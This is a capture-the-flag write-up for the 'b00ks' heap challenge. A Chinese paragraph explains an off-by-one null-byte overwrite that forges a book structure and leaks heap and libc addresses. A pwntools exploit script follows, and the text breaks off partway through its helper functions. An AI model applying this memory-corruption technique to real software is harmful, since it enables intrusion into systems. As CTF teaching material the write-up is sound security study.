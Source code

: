 ### exploit

攻击过程：通过create author name填充字段来泄露一个堆指针的地址，然后新建两个book，确保book1的name字段大小为0xe0,使得book1的description字段的首地址低字节为0xf，进而其数据域的地址低字节为0x00,从而在change author name时，覆盖堆指针（book1）的低字节为0x00,使其指向原本的description域，进而在修改book1的description时伪造一个book结构，这个伪造的book结构中，使name和description的数据指向book2的name和description域的地址，接着打印book1的信息来泄露book2（mmap得到的映射段）地址，从而根据固定便宜得到libc地址。

```python
from pwn import *
context.log_level = 'info'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
elf = ELF('./b00ks')

def create(name, name_size, description, des_size):
  p.recvuntil('> ')
  p.sendline('1')
  p.recvuntil('Enter book name size: ')
  p.sendline(str(name_size))
  p.recvuntil("Enter book name (Max 32 chars): ")
  p.sendline(name)
  p.recvuntil("Enter book description size: ")
  p.sendline(str(des_size))
  p.recvuntil("Enter book description: ")
  p.sendline(description)

def delete(id):
  p.recvuntil('> ')
  p.sendline('2')
  p.recvuntil("Enter the book id you want to delete: ")
  p.sendline(str(id))

def edit(id, description):
  p.recvuntil('> ')
  p.sendline('3')
  p.recvuntil("Enter the book id you want to edit: ")
  p.sendline(str(id))
  p.recvuntil("Enter new book description: ")
  p.sendline(description)

def print_book_detail(id):
  p.recvuntil('> ')
  p.sendline('4')
  dicts = {'id':[], 'name':[], 'description':[], 'author':[]}
  for i in range(id):
    try:
      p.recvuntil("ID: ",timeout=1)
      dicts['id'].append(int(p.recvuntil('\n',drop=True)))
      p.recvuntil('Name: ')
      dicts['name'].append(p.recvuntil('\n',drop=True))
      p.recvuntil('Description: ')
      dicts['description'].append(p.recvuntil('\n',drop=True))
      p.recvuntil('Author: ')
      dicts['author'].append(p.recvuntil('\n',drop=True))
    except:
      return dicts['id'],dicts['name'],dicts['description'],dicts['author']
  return dicts['id'],dicts['name'],dicts['description'],dicts['author']
def change_auther_name(name):
  p.recvuntil('> ')
  p.sendline('5')
  p.recvuntil("Enter author name: ")
  p.sendline(name)

def create_auhter_name(name):
```